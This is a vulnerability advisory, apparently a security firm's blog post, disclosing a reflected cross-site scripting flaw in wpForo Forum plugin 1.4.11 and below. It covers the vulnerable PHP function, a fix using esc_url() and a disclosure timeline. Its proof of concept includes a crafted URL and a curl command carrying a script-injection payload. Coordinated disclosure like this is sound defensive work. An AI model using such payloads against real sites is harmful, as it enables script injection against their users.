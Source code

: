 ```yaml
---
layout: post
status: publish
published: true
title: Security Vulnerability in wpForo Forum WordPress Plugin
excerpt: "Version 1.4.11, and below, of the wpForo Forum WordPress Plugin were found to be vulnerable to Reflected Cross-Site Scripting (XSS). The vulnerability was due to the Plugin using the $_SERVER['REQUEST_URI'] PHP variable to create a URL string that was later output within HTML without any output encoding."
---
```


### Introduction

According to the wpForo Forum WordPress Plugin page: "wpForo Forums is the best WordPress forum plugin. Full-fledged yet easy and light forum solution for your WordPress website. Comes with modern and responsive forum layouts and styles. This WordPress forum plugin brings everything you need to run an efficient and professional community. Powerful and beautiful forum with unique features."

According to WordPress, at the time of writing the Plugin had ```10,000+``` active installations.

This issue was patched within hours by the vendor in version 1.4.12. CVE assigned as CVE-xxxx-xxxx (requested).

### Description

Version 1.4.11, and below, of the wpForo Forum WordPress Plugin were found to be vulnerable to Reflected Cross-Site Scripting (XSS). The vulnerability was due to the Plugin using the ```$_SERVER['REQUEST_URI']``` PHP variable to create a URL string that was later output within HTML without any output encoding.

### Risk

To successfully exploit this vulnerability, an attacker would need to entice a user into clicking on a specially crafted link. The user would need to be using the Internet Explorer (IE) web browser, with the, enabled by default, XSS filter disabled, or the attacker would need to use a valid IE XSS filter bypass payload.

### Affected Software

wpForo Forum <= 1.4.11 - [https://wordpress.org/plugins/wpforo/](https://wordpress.org/plugins/wpforo/)

### Technical Description

The ```wpforo_get_request_uri()``` function defined in the ```wpf-includes/functions.php``` file uses the ```$_SERVER['REQUEST_URI']``` variable to construct a URL, without any validation or output encoding. The full function code is shown below:

```
function wpforo_get_request_uri($with_port = FALSE, $get_referer_when_ajax = TRUE){
	if( $get_referer_when_ajax && wpforo_is_ajax() ){
		if( isset($_SERVER['HTTP_REFERER']) ){ return $_SERVER['HTTP_REFERER']; }
	}
	$s = is_ssl() ? 's' : '';
    $sp = strtolower($_SERVER["SERVER_PROTOCOL"]);
    $protocol = substr($sp, 0, strpos($sp, "/")) . $s;
    $port = ($_SERVER["SERVER_PORT"] == "80") ? "" : (":".$_SERVER["SERVER_PORT"]);
    return $protocol . "://" . $_SERVER['HTTP_HOST'] . ($with_port ? $port : '') . $_SERVER['REQUEST_URI'];
}
```

### Proof of Concept (PoC)

Click on the following link while using the Internet Explorer (IE) web browser, with the XSS filter disabled:

[http://www.example.com/index.php/community/?%22%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E](http://www.example.com/index.php/community/?%22%3E%3Cscript%3Ealert(/XSS/)%3C/script%3E)

Alternatively, run the following cURL request and notice that the XSS payload is output within HTML, without any validation, or output encoding:

```
curl -s 'http://www.example.com/index.php/community/?"><script>alert(/XSS/)</script>' | grep "XSS"
```

### Remediation

Vendor: Pass the constructed URL string through WordPress' ```esc_url()``` function before returning the string. For example:

```
$url = $protocol . "://" . $_SERVER['HTTP_HOST'] . ($with_port ? $port : '') . $_SERVER['REQUEST_URI'];
return esc_url($url);
```

Users: Update to version 1.4.12, which fixes the vulnerability.

### Timeline

- 31/05/2018 10:00: Issue discovered by Ryan (Dewhurst Security).
- 31/05/2018 11:28: Sent vendor details via email.
- 31/05/2018 11:33: Vendor replies stating they will release a patched version very soon.
- 31/05/2018 20:49: Receive email from vendor stating new patched version released.
- 01/06/2018 12:15: Advisory publicly released.

### References

- [https://codex.wordpress.org/Function_Reference/esc_url](https://codex.wordpress.org/Function_Reference/esc_url)
- [https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks/](https://www.wordfence.com/learn/how-to-prevent-cross-site-scripting-attacks/)
- [https://wpforo.com/](https://wpforo.com/)
- [https://wpvulndb.com/vulnerabilities/9090](https://wpvulndb.com/vulnerabilities/9090)

